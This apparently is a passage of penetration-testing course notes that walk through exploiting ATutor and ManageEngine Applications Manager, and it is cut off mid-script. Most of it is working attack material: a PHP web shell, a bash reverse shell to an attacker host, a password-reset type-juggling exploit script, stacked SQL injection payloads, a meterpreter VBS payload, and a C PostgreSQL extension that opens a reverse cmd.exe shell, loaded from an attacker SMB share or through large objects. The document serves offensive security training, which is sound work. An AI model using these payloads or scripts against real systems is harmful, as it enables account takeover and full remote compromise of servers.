curl "http://[target-ip]/[application-path]/mods/_standard/social/index_public.php?search[]=test" -
<?php if(isset($_REQUEST['cmd'])){echo "<pre>".shell_exec($_REQUEST['cmd'])."</pre>";}?> -
curl "http://[target-ip]/[application-path]/content/shell.phtml?cmd=id" -
# Listener nc -nlvp 443 # Trigger curl "http://[target-ip]/[application-path]/content/shell.phtml" \ --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/[attacker-ip]/443 0>&1'"
3. ATutor LMS Type Juggling
3.1 Getting Started
ATutor has a second authentication bypass - this one exploits PHP's loose comparison operator in the password reset token validation logic, requiring no SQL injection at all.
| Attack Vector | Module 3 (SQLi) | Module 4 (Type Juggling) |
|---|---|---|
| Vulnerability class | SQL Injection | Type confusion / weak comparison |
| Authentication required | No (unauthenticated SQLi) | No (password reset flow) |
| Root cause | Unsanitized input in SQL query | PHP loose comparison (==) on hash values |
| Complexity | Moderate (blind extraction) | Low (known magic hash values) |
Methodology
-
ssh [username]@[target-ip] ls -la /var/www/html/ATutor/ -
SET GLOBAL general_log = 'ON'; SET GLOBAL general_log_file = '/var/log/mysql/query.log'; -
grep -rn "password_reminder\|token.*==" --include="*.php" /var/www/html/ATutor/
3.2 PHP Loose and Strict Comparisons
PHP has two comparison operators: loose (==) and strict (===). Loose comparison performs type coercion before comparing values, which can produce unexpected results when comparing strings that look like numbers.
| Expression | Result | Reason |
|---|---|---|
"0" == false | true | "0" is falsy in PHP |
"0" === false | false | Different types (string vs bool) |
"1" == true | true | "1" coerced to integer 1, which is truthy |
"0e123" == "0e456" | true | Both parsed as 0 in scientific notation (0 × 10^123 == 0 × 10^456) |
"0e123" === "0e456" | false | String comparison: different characters |
"abc" == 0 | true | "abc" converts to 0 as an integer |
"1abc" == 1 | true | "1abc" converts to 1 (leading digits extracted) |
// Demonstration of loose comparison pitfalls
var_dump("0e12345" == "0e99999"); // bool(true) - both are 0.0
var_dump("0e12345" === "0e99999"); // bool(false) - different strings
var_dump("0e12345" == 0); // bool(true) - string parsed as 0
var_dump("0e12345" == "0"); // bool(true) - both coerce to 0
// The fix: always use strict comparison for security-sensitive checks
var_dump("0e12345" === "0e99999"); // bool(false)Methodology
-
grep -rn "==" --include="*.php" /var/www/html/ATutor/ | grep -i "password\|token\|hash\|auth"
3.3 PHP String Conversion to Numbers
When PHP's loose comparison encounters two strings that both match the pattern /^0e[0-9]+$/, it interprets them as floating-point numbers in scientific notation. Since 0 raised to any power is still 0, any two strings matching this pattern evaluate as equal under ==.
// PHP string-to-number conversion rules:
// 1. Leading whitespace is ignored
// 2. Optional sign (+ or -)
// 3. Digits are consumed until a non-digit character
// 4. 'e' or 'E' followed by digits = scientific notation
var_dump((int)"123abc"); // int(123) - leading digits extracted
var_dump((int)"abc"); // int(0) - no leading digits
var_dump((float)"0e12345"); // float(0) - 0 * 10^12345 = 0
var_dump((float)"0e99999"); // float(0) - 0 * 10^99999 = 0
// Both hash values below are "equal" under loose comparison:
$hash_a = "0e462097431906509019562988736854"; // md5("240610708")
$hash_b = "0e848240448830537924465865611904"; // md5("QNKCDZO")
var_dump($hash_a == $hash_b); // bool(true) - both are 0.0| Input | MD5 Hash | Numeric Value |
|---|---|---|
240610708 | 0e462097431906509019562988736854 | 0 |
QNKCDZO | 0e830400451993494058024219903391 | 0 |
aabg7XSs | 0e087386482136013740957780965295 | 0 |
aabC9RqS | 0e041022518165728065344349536617 | 0 |
s878926199a | 0e545993274517709034328855841020 | 0 |
s155964671a | 0e342768416822451524974117254469 | 0 |
Methodology
3.4 Vulnerability Discovery
ATutor's password reset flow generates a token, stores it in the database, and emails it to the user. When the user submits the token via the reset link, ATutor compares the submitted token against the stored token using loose comparison:
// password_reminder.php - token validation (simplified)
$token = $_GET['token'];
$member_id = $_GET['id'];
$sql = "SELECT password_reminder FROM " . TABLE_PREFIX . "members
WHERE member_id = " . intval($member_id);
$result = mysql_query($sql, $db);
$row = mysql_fetch_assoc($result);
// VULNERABLE: loose comparison
if ($token == $row['password_reminder']) {
// Token matches - allow password reset
// ...
}The token stored in the database is an MD5 hash. If the stored hash matches the 0e[digits] pattern, submitting any other 0e[digits] string as the token passes the loose comparison, because both values evaluate to 0.
The goal is to find or create a user account whose password reset token (MD5 hash) starts with 0e followed only by digits. The token is generated from a combination of user data:
// Token generation in ATutor
$token = md5($row['email'] . $row['creation_date'] . $config['site_name']);Since creation_date and site_name are fixed after account creation, the token depends primarily on the email address. By registering accounts with different email addresses, the resulting MD5 hash can be checked for the magic 0e[digits] pattern.
Methodology
3.5 Attacking the Loose Comparison
3.5.1 Magic Hashes
A "magic hash" is an input whose hash output matches the pattern /^0e[0-9]+$/. When PHP performs a loose comparison between two such hashes, both are converted to the float 0.0 and the comparison evaluates to true.
#!/usr/bin/env python3
"""Find email addresses that produce magic MD5 hashes for ATutor type juggling."""
import hashlib
import re
import itertools
import string
MAGIC_PATTERN = re.compile(r'^0e[0-9]+$')
def check_magic(email, creation_date, site_name):
"""Check if the token hash for this email matches the magic pattern."""
token_input = email + creation_date + site_name
token_hash = hashlib.md5(token_input.encode()).hexdigest()
return MAGIC_PATTERN.match(token_hash), token_hash
# Known values from the target ATutor instance
creation_date = "2023-01-15 10:30:00" # From database or registration time
site_name = "ATutor" # From config or page title
# Brute-force email addresses
domain = "@[target-domain]"
count = 0
for length in range(4, 10):
for combo in itertools.product(string.ascii_lowercase, repeat=length):
email = ''.join(combo) + domain
is_magic, h = check_magic(email, creation_date, site_name)
count += 1
if count % 100000 == 0:
print(f"[*] Tested {count} addresses...")
if is_magic:
print(f"[+] Magic email found: {email}")
print(f"[+] Token hash: {h}")
break
else:
continue
break3.5.2 Exploiting the Magic Email
Once a magic email is identified, the attack proceeds in three steps:
| Step | Action | Detail |
|---|---|---|
| 1 | Register | Create a new ATutor account with the magic email address |
| 2 | Reset | Request a password reset for the target admin account |
| 3 | Juggle | Submit the reset link with token 0 (or any 0e[digits] string) for the magic email account |
The admin's reset token is compared against the submitted token using ==. If the admin's token hash also happens to match 0e[digits], the comparison succeeds. However, the more reliable approach is to target the attacker-controlled account (with the magic email) and use that account's reset flow:
#!/usr/bin/env python3
"""ATutor type juggling exploit - bypass password reset token validation."""
import requests
target = "http://[target-ip]/[application-path]"
session = requests.Session()
# Step 1: Register account with magic email
magic_email = "[magic-email]@[target-domain]" # Found via brute-force
register_data = {
"form_login": "attacker",
"form_password": "[password]",
"form_password_again": "[password]",
"form_email": magic_email,
"submit": "Register"
}
session.post(f"{target}/registration.php", data=register_data)
print("[+] Registered account with magic email")
# Step 2: Request password reset for our magic account
session.post(f"{target}/password_reminder.php", data={"form_email": magic_email})
print("[+] Password reset requested")
# Step 3: Submit reset with magic token value
# Any 0e[digits] string works because both evaluate to 0 under ==
member_id = 2 # The attacker's member_id (adjust as needed)
r = session.get(f"{target}/password_reminder.php", params={
"id": member_id,
"token": "0", # PHP: "0" == "0e[any digits]" → true (both are 0)
"new_password": "[new-password]",
"confirm_password": "[new-password]"
})
if "password changed" in r.text.lower() or r.status_code == 200:
print("[+] Password reset successful via type juggling")
print(f"[+] New password: [new-password]")
else:
print("[-] Exploit failed - token may not match magic pattern")3.5.3 Remediation
The fix is straightforward: replace loose comparison with strict comparison in all security-sensitive code paths.
// VULNERABLE:
if ($token == $row['password_reminder']) { ... }
// FIXED:
if ($token === $row['password_reminder']) { ... }
// Also consider using hash_equals() to prevent timing attacks:
if (hash_equals($row['password_reminder'], $token)) { ... }| Mitigation | Protection |
|---|---|
Use === instead of == | Prevents type coercion; strings compared character by character |
Use hash_equals() | Prevents both type juggling and timing side-channel attacks |
Use password_hash() / password_verify() | Bcrypt hashes never match the 0e[digits] pattern (they start with $2y$) |
Generate tokens with random_bytes() | Cryptographically random tokens are not predictable |
Methodology
-
# Quick check in PHP php -r "echo md5('[email]@[target-domain]' . '2023-01-15' . 'ATutor') . PHP_EOL;" -
curl "http://[target-ip]/[application-path]/password_reminder.php?id=[member_id]&token=0&new_password=[new-password]&confirm_password=[new-password]"
4. ManageEngine SQL Injection RCE
4.1 Vulnerability Overview
ManageEngine Applications Manager is a Java-based application performance monitoring solution. The web interface uses .do URL extensions mapped to compiled Java servlets. The AMUserResourcesSyncServlet contains an unauthenticated SQL injection vulnerability that chains through PostgreSQL to achieve remote code execution.
| URL | Username | Password |
|---|---|---|
https://[target-ip]:[port]/ | [username] | [password] |
rdp://[target-ip] | [username] | [password] |
# RDP into the ManageEngine VM
xfreerdp +nego +sec-rdp +sec-tls +sec-nla /u:[username] /p:[password] /v:[target-ip] /size:1180x708Methodology
-
xfreerdp +nego +sec-rdp +sec-tls +sec-nla /u:[username] /p:[password] /v:[target-ip] /size:1180x708 # Append /tls-seclevel:0 if ERRCONNECT_TLS_CONNECT_FAILED
4.2 Vulnerability Discovery
4.2.1 Servlet Mappings
The .do URL extension indicates compiled Java servlet URL mappings. Use Process Explorer to identify the Java process and its working directory at C:\Program Files (x86)\ManageEngine\AppManager12\working\.
Java web applications store HTTP routing configuration in the WEB-INF/web.xml deployment descriptor. Each route consists of a servlet definition (class mapping) and a servlet-mapping (URL pattern). The vulnerable servlet mapping is:
<servlet>
<servlet-name>AMUserResourcesSyncServlet</servlet-name>
<servlet-class>com.adventnet.appmanager.servlets.comm.AMUserResourcesSyncServlet</servlet-class>
</servlet>
<servlet-mapping>
<servlet-name>AMUserResourcesSyncServlet</servlet-name>
<url-pattern>/servlet/AMUserResourcesSyncServlet</url-pattern>
</servlet-mapping>4.2.2 Source Code Recovery
The WEB-INF\lib directory contains multiple JAR files. Most are third-party libraries; AdventNetAppManagerWebClient.jar is the primary ManageEngine application JAR to target. Decompile with JD-GUI and use File > Save All Sources to export Java files for searching.
A regex search for SQL queries returns ~5000 results - too many to review efficiently. Searching for HTTP handler implementations instead narrows the attack surface significantly.
# Broad regex (too many results ~5000):
^.*?query.*?select.*?
# Targeted search for HTTP handlers (~87 results):
doGet\(HttpServletRequest
doPost\(HttpServletRequest| Search Strategy | Results | Usefulness |
|---|---|---|
| Regex for SELECT queries | ~5000 | Low - too broad, most are internal |
Search for doGet implementations | ~87 | High - direct entry points for user input |
Search for doPost implementations | Variable | High - often redirects to doGet |
4.2.3 Code Analysis
The AMUserResourcesSyncServlet class has a doPost that simply redirects to doGet. The doGet method extracts four user-controlled parameters and routes execution based on their presence. The userId parameter is concatenated directly into a SQL query without any sanitization.
public class AMUserResourcesSyncServlet extends HttpServlet {
public void doPost(HttpServletRequest request, HttpServletResponse response)
throws ServletException, IOException {
doGet(request, response);
}
public void doGet(HttpServletRequest request, HttpServletResponse response)
throws ServletException, IOException {
response.setContentType("text/html; charset=UTF-8");
PrintWriter out = response.getWriter();
String isSyncConfigtoUserMap = request.getParameter("isSyncConfigtoUserMap");
if ((isSyncConfigtoUserMap != null) && ("true".equals(isSyncConfigtoUserMap))) {
fetchAllConfigToUserMappingForMAS(out);
return;
}
String masRange = request.getParameter("ForMasRange");
String userId = request.getParameter("userId");
String chkRestrictedRole = request.getParameter("chkRestrictedRole");
if ((chkRestrictedRole != null) && ("true".equals(chkRestrictedRole))) {
boolean isRestricted = RestrictedUsersViewUtil.isRestrictedRole(userId);
out.println(isRestricted);
} else if (masRange != null) {
if ((userId != null) && (!"".equals(userId))) {
fetchUserResourcesofMASForUserId(userId, masRange, out);
} else {
fetchAllUserResourcesForMAS(masRange, out);
}
}
}
}The vulnerable fetchUserResourcesofMASForUserId method concatenates userId directly into the SQL query string on the line constructing qry. No parameterized queries or input sanitization are applied before execution.
public void fetchUserResourcesofMASForUserId(String userId, String masRange, PrintWriter out) {
int stRange = Integer.parseInt(masRange);
int endRange = stRange + EnterpriseUtil.RANGE;
String qry = "select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID="
+ userId + " and RESOURCEID >" + stRange + " and RESOURCEID < " + endRange;
ResultSet rs = null;
try {
rs = AMConnectionPool.executeQueryStmt(qry);
while (rs.next()) {
String resId = rs.getString(1);
out.println(resId);
}
} catch (Exception ex) {
ex.printStackTrace();
} finally {
AMConnectionPool.closeStatement(rs);
}
}To reach the vulnerable code path, specific parameters must be present or absent. The first two if blocks must evaluate to false, then the else if requires ForMasRange and userId to both be set and non-empty.
| Parameter | Requirement | Reason |
|---|---|---|
isSyncConfigtoUserMap | Must NOT be sent | First if block would redirect to a different function |
chkRestrictedRole | Must NOT be sent | Second if block would call isRestrictedRole instead |
ForMasRange | Must be set (e.g., 1) | Required to enter the else if branch |
userId | Must be set and non-empty | Required to call the vulnerable function |
4.2.4 Enabling Database Logging
ManageEngine uses PostgreSQL as its backend database. Enable query logging to see injected SQL statements and debug payloads. The configuration file is under the ManageEngine installation directory.
# PostgreSQL config file location:
# C:\Program Files (x86)\ManageEngine\AppManager12\working\pgsql\data\amdb\postgresql.conf
# Set the following in postgresql.conf:
log_statement = 'all'
# Restart the ManageEngine service to apply changes:
net stop "ManageEngine Applications Manager"
net start "ManageEngine Applications Manager"
# Log files are written to:
# C:\Program Files (x86)\ManageEngine\AppManager12\working\pgsql\data\amdb\pgsql_log\For direct SQL query execution during debugging, use pgAdmin (installed on the VM) or the psql.exe command-line client. The ManageEngine PostgreSQL instance listens on port 15432.
Methodology
-
# Locate the ManageEngine working directory: # C:\Program Files (x86)\ManageEngine\AppManager12\working\ -
grep -A3 "servlet-mapping" WEB-INF/web.xml | grep "url-pattern" -
# Targeted search (~87 results vs ~5000 for raw SQL): grep -rn "doGet\(HttpServletRequest" --include="*.java" . grep -rn "doPost\(HttpServletRequest" --include="*.java" . -
# In postgresql.conf, set: log_statement = 'all' # Restart ManageEngine service, then tail the log: # C:\...\pgsql\data\amdb\pgsql_log\
4.3 Triggering the Vulnerability
The original query uses no quoted strings around userId, so a simple semicolon terminates the first query and begins a stacked query. The HTTP response returns 200 OK with an empty body - no verbose error is exposed to the attacker in a black-box scenario.
# Trigger request - semicolon breaks the SQL query
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1; HTTP/1.1
Host: [target-ip]:8443
# Response: HTTP/1.1 200 OK, Content-Length: 0 (no error output)The PostgreSQL log file confirms the injection with a syntax error, showing the query was split by the injected semicolon:
-- Log output:
-- LOG: execute: select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=1
-- ERROR: syntax error at or near "and" at character 2
-- STATEMENT: and RESOURCEID >1 and RESOURCEID < 100000014.3.1 Proof of Concept Script
Python proof-of-concept script to trigger and confirm the vulnerability:
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
def main():
if len(sys.argv) != 2:
print("(+) usage: %s <target>" % sys.argv[0])
print("(+) eg: %s [target-ip]" % sys.argv[0])
sys.exit(1)
t = sys.argv[1]
sqli = ";"
r = requests.get('https://%s:8443/servlet/AMUserResourcesSyncServlet' % t,
params='ForMasRange=1&userId=1%s' % sqli, verify=False)
print(r.text)
print(r.headers)
if __name__ == '__main__':
main()4.3.2 Injection Technique Comparison
UNION-based extraction is limited because the RESOURCEID column is defined as BIGINT, restricting output to matching data types. Stacked queries are supported but break boolean-based blind injection due to a "Multiple ResultSets" error. Time-based blind injection with pg_sleep() is the reliable approach.
-- Time-based blind confirmation
1; SELECT pg_sleep(10); --
-- Full injection URL:
-- /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+pg_sleep(10);--+| Injection Technique | Feasibility | Notes |
|---|---|---|
| UNION-based | Limited | RESOURCEID is BIGINT - can only extract integer data |
| Boolean blind (stacked) | Broken | Multiple ResultSets error breaks application logic |
| Time-based blind (stacked) | Reliable | Use pg_sleep() with conditional statements |
Methodology
-
curl -k "https://[target-ip]:[port]/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;" -
-- Expected log output: -- LOG: execute: select distinct(RESOURCEID) ... where USERID=1 -- ERROR: syntax error at or near "and" -
curl -k "https://[target-ip]:[port]/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+pg_sleep(10);--+"
4.4 Bypassing Character Restrictions
4.4.1 HTML Encoding Problem
Special characters in the HTTP request are HTML-encoded before reaching the database. A single quote (') becomes ', breaking quoted string literals in SQL. MySQL supports hex-encoded strings (0x...) as a bypass, but PostgreSQL does not auto-decode hex literals.
-- Injecting a single quote results in HTML encoding:
-- STATEMENT: ... where USERID=1'
-- ERROR: operator does not exist: integer &# integer
-- PostgreSQL decode() still requires quotes:
SELECT convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');
-- Not usable because quotes are encoded4.4.2 Using CHR() and String Concatenation
The CHR() function converts ASCII code points to characters. The double pipe (||) operator concatenates them. This works for basic queries like SELECT and INSERT but fails for function arguments such as the filename parameter in COPY.
-- Build strings from character codes:
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
-- Returns: AWAE
-- Works in INSERT VALUES:
CREATE TABLE test (col text);
INSERT INTO test(col) VALUES (CHR(65)||CHR(87)||CHR(65)||CHR(69));
-- Does NOT work for COPY TO filename argument:
COPY test(col) TO CHR(99)||CHR(58)||CHR(92)||CHR(92)||CHR(65);
-- ERROR: syntax error at or near "CHR"4.4.3 Dollar-Quoted String Constants
PostgreSQL supports dollar-quoted string constants as a quote substitute. Two dollar signs ($$) function identically to single quotes, and an optional tag ($TAG$) can be used. This fully bypasses the HTML encoding restriction on single quotes.
-- All three statements are equivalent:
SELECT 'AWAE';
SELECT $$AWAE$$;
SELECT $TAG$AWAE$TAG$;
-- Dollar-quoting bypasses the restriction for COPY TO:
CREATE TEMP TABLE test(col text);
INSERT INTO test(col) VALUES ($$payload_data$$);
COPY test(col) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;Methodology
-
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69); -- Returns: AWAE -
-- Dollar-quoting works everywhere, including COPY TO: COPY (SELECT $$payload$$) TO $$C:\output.txt$$;
4.5 Exploitation
4.5.1 Checking DBA Privileges
Before attempting filesystem or extension-based attacks, verify the application runs with database superuser privileges. The current_setting('is_superuser') function returns on if the current user has DBA privileges.
-- Direct query (via pgAdmin):
SELECT current_setting($$is_superuser$$);
-- Returns: on# Time-based DBA privilege check via injection:
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+CASE+WHEN+(SELECT+current_setting($$is_superuser$$))=$$on$$+THEN+pg_sleep(10)+END;--+
Host: [target-ip]:8443
# If response delays 10 seconds, we have DBA privileges4.5.2 Accessing the File System
With DBA privileges, PostgreSQL's COPY function enables reading from and writing to the filesystem. Writing uses a subquery with COPY TO, while reading requires creating a temporary table and importing file contents with COPY FROM.
-- Write a file to disk:
COPY (SELECT $$offsec$$) TO $$C:\\offsec.txt$$;
-- Read a file from disk (requires temp table):
CREATE TEMP TABLE temp_tbl (content text);
COPY temp_tbl FROM $$C:\\target_file.txt$$;
SELECT content FROM temp_tbl;
DROP TABLE temp_tbl;Time-based file reading via injection extracts content byte-by-byte using ascii() and substr(). This technique works for both text and binary files.
# Read first character of a file via time-based injection:
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;CREATE+TEMP+TABLE+tbl(content+text);COPY+tbl+FROM+$$c:\target.txt$$;SELECT+CASE+WHEN(ascii(substr((SELECT+content+FROM+tbl),1,1))=104)+THEN+pg_sleep(10)+END;--+
Host: [target-ip]:8443
# Write a file via injection:
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;COPY+(SELECT+$$offsec$$)+TO+$$c:\\offsec.txt$$;--+
Host: [target-ip]:8443The web application runs under the SYSTEM user context, meaning files are written with full system privileges.
4.5.3 Reverse Shell via COPY TO
ManageEngine periodically executes VBS scripts (e.g., wmiget.vbs) when monitors are configured. Overwriting these scripts with a meterpreter payload and the original functionality combined on a single line provides a persistent reverse shell triggered by the polling interval.
# Generate a VBS meterpreter reverse shell:
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp \
LHOST=[attacker-ip] LPORT=[listener-port] -e x86/shikata_ga_nai -f vbsKey constraints for the COPY TO approach: the file content must be a single line (COPY TO cannot handle newlines in a single SELECT), the payload must be base64-encoded to avoid restricted characters, and URL-encoding is required for the web server. Use POST requests for large payloads since doPost calls doGet.
-- General injection pattern for file overwrite:
COPY (SELECT convert_from(decode($$[base64-payload]$$, $$base64$$), $$utf-8$$))
TO $$C:\\Program Files (x86)\\ManageEngine\\AppManager12\\working\\conf\\application\\scripts\\wmiget.vbs$$;| Constraint | Solution |
|---|---|
| COPY TO requires single-line content | Convert original VBS + payload to one line |
| Special characters in payload | Base64 encode, use convert_from(decode(...)) |
| GET request size limit for large payloads | Switch to POST (doPost calls doGet) |
| URL special characters | URL-encode the full injection string |
Methodology
-
curl -k "https://[target-ip]:[port]/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+CASE+WHEN+(SELECT+current_setting($$is_superuser$$))=$$on$$+THEN+pg_sleep(10)+END;--+" -
COPY (SELECT $$offsec$$) TO $$C:\\offsec.txt$$; -
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp \ LHOST=[attacker-ip] LPORT=[listener-port] -e x86/shikata_ga_nai -f vbs -
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST [attacker-ip]; set LPORT [listener-port]; run"
4.6 PostgreSQL Extensions
4.6.1 Building a Custom UDF
PostgreSQL can load custom C extensions as User Defined Functions (UDFs). The extension DLL must include the PG_MODULE_MAGIC macro - loading system DLLs like kernel32.dll fails with "missing magic block." The ManageEngine VM includes a pre-configured Visual Studio 2017 build environment.
-- Attempting to load a system DLL fails:
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int
AS $$C:\Windows\System32\kernel32.dll$$, $$WinExec$$ LANGUAGE C STRICT;
SELECT system($$hostname$$);
-- ERROR: incompatible library: missing magic block
-- HINT: Extension libraries are required to use the PG_MODULE_MAGIC macro.Sample UDF extension that launches an arbitrary process using ShellExecute:
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"
#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif
PGDLLEXPORT Datum awae(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(awae);
Datum awae(PG_FUNCTION_ARGS) {
#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))
int instances = PG_GETARG_INT32(1);
for (int c = 0; c < instances; c++) {
ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
}
PG_RETURN_VOID();
}-- Create and test the UDF:
CREATE OR REPLACE FUNCTION test(text, integer) RETURNS void
AS $$C:\[dll-name].dll$$, $$[function-name]$$ LANGUAGE C STRICT;
SELECT test($$calc.exe$$, 3);
-- Cleanup procedure:
-- 1. net stop "Applications Manager"
-- 2. del C:\[dll-name].dll
-- 3. net start "Applications Manager"
-- 4. DROP FUNCTION test(text, integer);4.6.2 Loading UDF from Remote Share
PostgreSQL does not restrict DLL paths to local files - UNC paths to network shares work too. Host the malicious DLL on the attacker's machine via an SMB share and load it directly into PostgreSQL without uploading the file first.
# Start SMB server on Kali:
mkdir /home/kali/awae
sudo impacket-smbserver awae /home/kali/awae/-- Create UDF from remote SMB share:
CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void
AS $$\\[attacker-ip]\awae\awae.dll$$, $$[function-name]$$ LANGUAGE C STRICT;
SELECT remote_test($$[command]$$, [integer-argument]);4.6.3 UDF Reverse Shell
A full reverse shell UDF uses Winsock to connect back to the attacker and redirect stdin/stdout/stderr to the socket. The IP address and port are passed as function arguments to avoid hardcoding.
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")
#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif
PGDLLEXPORT Datum connect_back(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(connect_back);
WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;
Datum connect_back(PG_FUNCTION_ARGS) {
#define GET_TEXT(cstrp) DatumGetTextP(DirectFunctionCall1(textin, CStringGetDatum(cstrp)))
#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))
WSAStartup(MAKEWORD(2, 2), &wsaData);
s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
hax.sin_family = AF_INET;
hax.sin_port = htons(PG_GETARG_INT32(1));
hax.sin_addr.s_addr = inet_addr(GET_STR(PG_GETARG_TEXT_P(0)));
WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);
memset(&sui, 0, sizeof(sui));
sui.cb = sizeof(sui);
sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE)s1;
CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
PG_RETURN_VOID();
}Python exploit script to create the UDF from a remote SMB share and trigger the reverse shell:
import requests, sys
requests.packages.urllib3.disable_warnings()
def log(msg):
print(msg)
def make_request(url, sql):
log("[*] Executing query: %s" % sql[0:80])
r = requests.get(url % sql, verify=False)
return r
def create_udf_func(url):
log("[+] Creating function...")
sql = "CREATE OR REPLACE FUNCTION rev_shell(text, integer) RETURNS void AS $$\\\\[attacker-ip]\\awae\\rev_shell.dll$$, $$connect_back$$ LANGUAGE C STRICT"
make_request(url, sql)
def trigger_udf(url, ip, port):
log("[+] Launching reverse shell...")
sql = "SELECT rev_shell($$%s$$, %d)" % (ip, int(port))
make_request(url, sql)
if __name__ == '__main__':
try:
server = sys.argv[1].strip()
attacker = sys.argv[2].strip()
port = sys.argv[3].strip()
except IndexError:
print("[-] Usage: %s [target-ip]:[port] [attacker-ip] [listener-port]" % sys.argv[0])
sys.exit()
sqli_url = "https://" + server + "/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--"
create_udf_func(sqli_url)
trigger_udf(sqli_url, attacker, port)Methodology
-
CREATE OR REPLACE FUNCTION test(text, integer) RETURNS void AS $$C:\[dll-name].dll$$, $$[function-name]$$ LANGUAGE C STRICT; SELECT test($$calc.exe$$, 3); -
sudo impacket-smbserver awae /home/kali/awae/ -
SELECT lo_import($$C:\\[dll-name].dll$$, 1337); SELECT lo_export(1337, $$C:\\target_path\\rev_shell.dll$$); -
nc -nlvp [listener-port] # Then via injection: # SELECT rev_shell($$[attacker-ip]$$, [listener-port]);
4.7 Large Objects for File Transfer
4.7.1 Large Object Mechanics
The remote SMB approach requires internal network access. For scenarios without SMB connectivity, PostgreSQL Large Objects provide an alternative to transfer binary files directly through SQL queries. Unlike COPY TO, Large Objects can faithfully reproduce binary data when exported.
Large objects are stored in the pg_largeobject table, split into 2KB (2048 byte) pages. The lo_import function creates a large object with a specified loid (allowing us to reference it in blind injection), and lo_export writes it back to the filesystem.
-- Create a large object with a known loid:
SELECT lo_import($$C:\\Windows\\win.ini$$, 1337);
-- View the stored data:
SELECT loid, pageno, encode(data, 'escape') FROM pg_largeobject;
-- Update the data with custom hex-encoded content:
UPDATE pg_largeobject SET data=decode($$77303074$$, $$hex$$)
WHERE loid=1337 AND pageno=0;
-- Export the large object to a file:
SELECT lo_export(1337, $$C:\\new_file.dll$$);
-- Cleanup:
SELECT lo_unlink(1337);| Function | Purpose | Notes |
|---|---|---|
lo_import(path, loid) | Create large object from file | Second arg sets a known loid for blind SQLi |
lo_export(loid, path) | Write large object to filesystem | Faithful binary reproduction |
lo_unlink(loid) | Delete a large object | Cleanup after exploitation |
pg_largeobject table | Storage for large object data | 2048 bytes per page (pageno 0, 1, 2...) |
4.7.2 Large Object Reverse Shell
The full attack uploads a custom DLL through SQL injection by splitting it into 2KB chunks stored as large object pages. Each chunk is hex-encoded (4096 hex characters = 2048 bytes). After uploading all pages, the large object is exported to disk, registered as a UDF, and triggered for RCE.
| Step | Action | SQL |
|---|---|---|
| 1 | Delete any existing large object | SELECT lo_unlink(1337) |
| 2 | Create large object from arbitrary file | SELECT lo_import($$C:\\windows\\win.ini$$, 1337) |
| 3 | Update page 0 with first 2KB of DLL | UPDATE pg_largeobject SET data=decode($$HEX$$, $$hex$$) WHERE loid=1337 AND pageno=0 |
| 4 | Insert additional pages for remaining chunks | INSERT INTO pg_largeobject (loid, pageno, data) VALUES (1337, N, decode($$HEX$$, $$hex$$)) |
| 5 | Export to filesystem | SELECT lo_export(1337, $$C:\\[writable-path]\\[dll-name].dll$$) |
| 6 | Create UDF from exported DLL | CREATE OR REPLACE FUNCTION rev_shell(text, integer) RETURNS void AS $$...$$ LANGUAGE C STRICT |
| 7 | Trigger reverse shell | SELECT rev_shell($$[attacker-ip]$$, [listener-port]) |
Complete Python exploit implementing all steps:
import requests, sys
requests.packages.urllib3.disable_warnings()
# Hex-encoded UDF reverse shell DLL
udf = 'YOUR_HEX_ENCODED_DLL_HERE'
loid = 1337
def log(msg):
print(msg)
def make_request(url, sql):
log("[*] Executing query: %s" % sql[0:80])
r = requests.get(url % sql, verify=False)
return r
def delete_lo(url, loid):
log("[+] Deleting existing LO...")
sql = "SELECT lo_unlink(%d)" % loid
make_request(url, sql)
def create_lo(url, loid):
log("[+] Creating LO for UDF injection...")
sql = "SELECT lo_import($$C:\\windows\\win.ini$$, %d)" % loid
make_request(url, sql)
def inject_udf(url, loid):
log("[+] Injecting payload of length %d into LO..." % len(udf))
